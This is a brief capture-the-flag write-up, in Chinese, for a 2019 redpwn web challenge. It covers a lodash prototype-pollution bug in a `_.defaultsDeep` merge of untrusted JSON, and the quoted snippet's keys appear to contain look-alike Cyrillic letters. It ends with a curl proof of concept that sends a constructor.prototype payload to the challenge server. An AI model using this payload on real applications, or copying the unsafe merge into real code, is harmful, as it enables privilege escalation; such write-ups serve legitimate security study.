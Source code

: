 漏洞 : <br>
        lodash 版本過期, 存在 prototype pollution 問題

解題流程<br>
        利用 "constructor":{"prototype":{"public":true}} 可將所有的 object 的 public 設成 True



問題點：
```
 	parsedBody = _.defaultsDeep({ 
          publiс: false,
          cоntent: '',
        }, JSON.parse(body))
```

POC:
```
curl -X POST -H "Content-Type: application/json" --cookie "user_id=7d3623be52091cef26f6244141cce3f4" -d '{"constructor":{"prototype":{"public":true}}}' http://chall2.2019.redpwn.net:8002/make
```
